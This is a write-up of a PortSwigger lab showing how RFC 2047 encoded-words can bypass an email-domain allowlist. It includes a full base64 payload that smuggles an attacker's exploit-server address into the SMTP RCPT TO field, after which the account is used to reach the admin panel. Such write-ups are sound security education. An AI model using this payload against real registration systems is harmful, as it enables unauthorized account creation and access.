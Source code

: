 # Bypassing access controls using email address parsing discrepancies

<details class="toc"><summary markdown="span"><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-bypassing-access-controls-using-email-address-parsing-discrepancies), you'll learn: Bypassing access controls using email address parsing discrepancies! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★☆☆☆☆

## Background

This lab validates email addresses to prevent attackers from registering addresses from unauthorized domains. There is a parser discrepancy in the validation logic and library used to parse email addresses.

To solve the lab, exploit this flaw to register an account and delete `carlos`.

## Enumeration

Register page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203135351.png)

In here, we can see that it's using **domain `ginandjuice.shop` as the whitelisted domain**.

We can try to register an account with a non whitelisted email domain:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203135749.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203135830.png)

As expected, only domain `ginandjuice.shop` is allowed.

Hmm... Can we bypass that validation?

Some websites parse email addresses to extract the domain and determine which organization the email owner belongs to. While this process may initially seem straightforward, it is actually very complex, even for valid RFC-compliant addresses.

Discrepancies in how email addresses are parsed can undermine this logic. These discrepancies arise when different parts of the application handle email addresses differently.

An attacker can exploit these discrepancies using encoding techniques to disguise parts of the email address. This enables the attacker to create email addresses that pass initial validation checks but are interpreted differently by the server's parsing logic.

The main impact of email address parser discrepancies is unauthorized access. Attackers can register accounts using seemingly valid email addresses from restricted domains. This enables them to gain access to sensitive areas of the application, such as admin panels or restricted user functions.

If we read whitepaper [Splitting the Email Atom: Exploiting Parsers to Bypass Access Controls](https://portswigger.net/research/splitting-the-email-atom) by Gareth Heyes, we can try to bypass the whitelisted email domain.

More specifically, we can try to use **encoded-word**, which is defined in [RFC 2047 section 2](https://datatracker.ietf.org/doc/html/rfc2047#section-2).

To test the email parser supports encoded-word, we can try to probe for it, such as this:

```
=?utf-8?q?=41=41=41=41?=foobar@exploit-0ac2002e03c9d0f280d00cad01a10080.exploit-server.net
```

- `=?`: Start of encoded-word
- `utf-8`: Character set
- `?`: Separators
- `q`: Type of encoding, `q` means "Q-Encoding"
- `=41`: Hex encoded character `A`
- `?=`: End of encoded-word

If the email parser supports encoded-word, the email's username will be `AAAAfoobar`. Let's try it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203140117.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203140145.png)

Huh, now we got "Registration blocked for security reasons".

After some testing, we can see that the email parser did support encoded-word. However, we cannot use Q-Encoding. Luckily, we can bypass that using base64 encoding:

```
=?utf-8?b?QUFBQQ==?=foobar@exploit-0ac2002e03c9d0f280d00cad01a10080.exploit-server.net
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203140743.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203140759.png)

## Exploitation

Armed with the above information, we now know that the application's email parser supports encoded-word, which means we can try to leverage that to bypass the email domain whitelist!

According to the [Splitting the Email Atom](https://portswigger.net/research/splitting-the-email-atom) research blog post, we can try to do that with base64 encode our attacker email address `attacker@exploit-[...].exploit-server.net`, and let the email parser to base64 decode the encoded-word.

Moreover, we can also inject our own `RCPT TO` command in the SMTP conversation. Imagine the following normal `RCPT TO` SMTP command:

```
RCPT TO "foobar@ginandjuice.shop"
```

Since encoded-word is supported, we can inject our own payload to trick the `RCPT TO` command to send the email to a different domain, such as this:

Input:

```
=?utf-8?b?YXR0YWNrZXJAZXhwbG9pdC0wYWMyMDAyZTAzYzlkMGYyODBkMDBjYWQwMWExMDA4MC5leHBsb2l0LXNlcnZlci5uZXQg?=foobar@ginandjuice.shop
```

Original base64 encoded string:

```
attacker@exploit-0ac2002e03c9d0f280d00cad01a10080.exploit-server.net<space_character_here>
```

Output:

```
RCPT TO "attacker@exploit-0ac2002e03c9d0f280d00cad01a10080.exploit-server.net foobar@ginandjuice.shop"
```

By doing this, we could trick the SMTP to send the email to our attacker email address.

Let's use the above input payload to bypass the whitelisted domain!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203142435.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203142455.png)

Email client:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203142513.png)

Nice! We successfully bypassed it! Let's click the link to activate the account!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203142609.png)

And login to our new account:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203142632.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203142649.png)

Finally go to the "Admin panel" and delete user `carlos`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203142752.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-12/images/Pasted%20image%2020241203142809.png)

## Conclusion

What we've learned:

1. Bypassing access controls using email address parsing discrepancies